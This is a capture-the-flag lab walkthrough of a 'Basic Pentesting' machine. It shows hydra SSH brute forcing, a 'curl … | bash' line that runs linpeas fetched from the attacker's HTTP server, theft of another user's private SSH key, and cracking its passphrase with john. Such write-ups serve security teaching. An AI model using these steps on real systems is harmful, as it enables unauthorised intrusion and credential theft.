

# Basic Pentesting
This is a machine that allows you to practise web app hacking and privilege escalation

## Find the services exposed by the machine 
Let's do some enumerations

```text
# Nmap 7.91 scan initiated Wed Jun  2 18:19:48 2021 as: nmap -sV -sC -oN nmap/scan 10.10.163.160
Nmap scan report for 10.10.163.160
Host is up (0.16s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13?
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http-proxy?
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-06-02T08:53:15-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-02T12:53:15
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  2 18:24:31 2021 -- 1 IP address (1 host up) scanned in 283.01 seconds
```
## What is the name of the hidden directory on the web server(enter name without /)? 

Here I'm using dirb to bruteforce urls.
```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jun  2 18:25:33 2021
URL_BASE: http://10.10.163.160/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.163.160/ ----
==> DIRECTORY: http://10.10.163.160/development/                                             
+ http://10.10.163.160/index.html (CODE:200|SIZE:158)                                        
+ http://10.10.163.160/server-status (CODE:403|SIZE:301)                                     
                                                                                             
-----------------
END_TIME: Wed Jun  2 18:40:20 2021
DOWNLOADED: 4612 - FOUND: 2

```
http://10.10.163.160/development/dev.txt 

```text
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
http://10.10.163.160/development/j.txt

```text
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
## User brute-forcing to find the username & password
We have smbd open, that can give us a lot of information. We can use Enum4linux for that. Here we use this with -a flag for do all simple enumeration.

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $enum4linux -a 10.10.163.160
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Jun  2 18:52:04 2021

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.163.160
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

----snip----

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

## What is the username?
According to our enum4linux output we got 'jan' as our username.

## What is the password?
Here we can use hydra for bruteforce the password.
```bash
┌─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $hydra -l jan -P /opt/seclist/rockyou.txt ssh://10.10.69.213
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-02 19:39:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.69.213:22/
[STATUS] 97.00 tries/min, 97 tries in 00:01h, 14344303 to do in 2464:40h, 16 active
[STATUS] 99.67 tries/min, 299 tries in 00:03h, 14344101 to do in 2398:41h, 16 active
[STATUS] 95.43 tries/min, 668 tries in 00:07h, 14343732 to do in 2505:09h, 16 active
[22][ssh] host: 10.10.69.213   login: jan   password: armando
```

Our credentials :

* login: jan   
* password: armando

## What service do you use to access the server(answer in abbreviation in all caps)?

You know the answer already. We find our ssh credentials.So answer is SSH.

## Enumerate the machine to find any vectors for privilege escalation
Here we can use Some enumeration scripts such as linpeas , pspy. In this case I'm using linpeas. You can download linpeas from here.
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

Now we need put this script into our machine. In that case we can make a simple python HTTP server to upload the script to our victim's machine.

```bash
┌─[visith@parrot]─[~/CTF/thm/basic_pentesting/www]
└──╼ $cp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
┌─[visith@parrot]─[~/CTF/thm/basic_pentesting/www]
└──╼ $python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Now we can use our credentials to log into the machine. 
executing linpeas.sh 

```bash
jan@basic2:~$ curl 10.9.3.26:8000/linpeas.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
 29  333k   29   98k    0     0   102k      0  0:00:03 --:--:--  0:00:03  102k
```

## What is the name of the other user you found(all lower case)?
In our linpeas output we found this. So other user was **Kay**
```bash
[+] Users with console
jan:x:1001:1001::/home/jan:/bin/bash
kay:x:1000:1000:Kay,,,:/home/kay:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

## If you have found another user, what can you do with this information?

We found a id_rsa key in the output. Now we can log into the kay.
```bash
[+] Searching ssl/ssh files
/home/kay/.ssh/authorized_keys
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
Port 22
PermitRootLogin prohibit-password
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes
Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow


Searching inside /etc/ssh/ssh_config for interesting info
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes
    GSSAPIDelegateCredentials no

```
Navigating into id_rsa file
```bash
jan@basic2:~$ cd /home/kay
jan@basic2:/home/kay$ ls
pass.bak
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ cd .ssh
jan@basic2:/home/kay/.ssh$ cat id_rsa
```
I try to log in with ssh_key but it ask for passphrase.
## What is the final password you obtain?
we cannot read pass.bak at the moment
but we can crack ssh key,
copy id_rsa key from .ssh folder and save it on your machine as id_rsa

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $python ssh2john.py id_rsa > kay.hash
┌─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $ls
hydra.restore  id_rsa  kay.hash  nmap  readme.md  ssh2john.py  www
┌─[✗]─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $john kay.txt -wordlist=/opt/seclist/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:13 DONE (2021-06-03 17:29) 0.07251g/s 1040Kp/s 1040Kc/s 1040KC/sa6_123..*7¡Vamos!
Session completed
```
Credentials for kay user :
* passphrase for id_rsa = beeswax
```bash
┌─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $ssh -i id_rsa kay@10.10.53.18 
Enter passphrase for key 'id_rsa':  
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```